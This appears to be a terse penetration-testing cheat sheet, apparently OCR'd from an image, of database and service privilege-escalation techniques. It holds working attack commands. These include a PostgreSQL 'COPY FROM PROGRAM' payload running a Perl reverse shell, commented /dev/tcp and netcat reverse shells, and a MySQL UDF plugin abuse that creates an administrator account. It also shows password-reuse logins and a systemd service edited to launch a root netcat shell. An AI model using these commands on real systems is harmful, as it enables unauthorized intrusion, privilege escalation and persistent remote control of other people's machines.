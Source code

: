 ```jsx
//Postgres version 9.3+,super user RCE
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
//COPY cmd_exec FROM PROGRAM '/bin/sh -i >& /dev/tcp/192.168.45.201/80 0>&1';
//COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.1 80 >/tmp/f';
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.1.1:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

### MySQL

RCE via malicious plugin

```jsx
//locate mysql privilege escalation library in kali
locate "*lib_mysqludf_sys*"

//upload to plugin folder and load
show variables like '%plugin%';
create function sys_exec returns string soname 'lib_mysqludf_sys.so';
SELECT sys_exec("net user dave Dave123 /add");
SELECT sys_exec("net localgroup Administrators dave /add");
```

RCE via administrator privilege (read&write)

```jsx
//check read permission
select load_file('C:\\\\Users\\Administrator\\Desktop\\proof.txt');

```

Password Reuse

```jsx
mysql -u dave2 -pPassw0rd!
mysql -u root -pPassw0rd!
```

Credentials

```jsx
table_name like customers
```

### .Service

escalate privilege after reboot

```jsx
//modify file via vi
vi /etc/systemd/system/pythonapp.service

[Service]
ExecStart=nc 192.168.1.1 80 -e /bin/bash
User=root
```
